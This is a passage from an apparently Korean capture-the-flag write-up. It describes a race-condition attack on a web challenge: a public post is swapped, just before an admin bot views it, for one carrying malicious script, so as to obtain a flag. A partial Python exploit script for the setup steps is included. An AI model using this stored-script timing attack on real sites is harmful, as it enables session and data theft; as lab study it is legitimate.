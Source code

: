 총 공격 과정은 아래와 같이 진행됩니다.

1. 회원가입
2. 로그인
3. 정상적인 게시글 작성
4. 작성한 게시글 비공개 -> 공개 처리
5. 일정 딜레이 (0.2s, 두번째 유저가 방문하기 전) 후에 즉시 게시글을 악성 스크립트가 담긴 게시글로 수정
6. bot에서 2번째 유저가 악성 스크립트가 포함된 게시글로 방문함
7. 다시 게시글 확인 -> comment 확인 -> post_id 추출
8. 공개처리된 post_id 게시글 방문 -> FLAG 획득

아래는 모든 과정을 진행하는 총 exploit 과정입니다.

exploit.py
```python
import requests
import os
import time

from urllib.parse import unquote

url = "http://server"

username = "testtesttest" + os.urandom(5).hex()
password = username

requests.post(url + "/auth/register", data={
    "username": username,
    "password": password
}, headers={
    "Content-Type": "application/x-www-form-urlencoded"
})

login_res = requests.post(url + "/auth/login", data={
    "username": username,
    "password": password
}, headers={
    "Content-Type": "application/x-www-form-urlencoded"
}, allow_redirects=False)

session = login_res.headers.get("Set-Cookie")

post_res = requests.post(url + "/posts", data={
    "title": "exploit",
    "content": "fake"
}, headers={
    "Cookie": session,
    "Content-Type": "application/x-www-form-urlencoded"
})

post_id = post_res.url.split("posts/")[1]

requests.post(url + f"/posts/{post_id}/edit", data={
    "title": "exploit",
    "content": "fake",
    "isPublic": "on"
}, headers={
    "Cookie": session,
    "Content-Type": "application/x-www-form-urlencoded"
})

requests.get(url + f"/posts/{post_id}", headers={
    "Cookie": session
})

```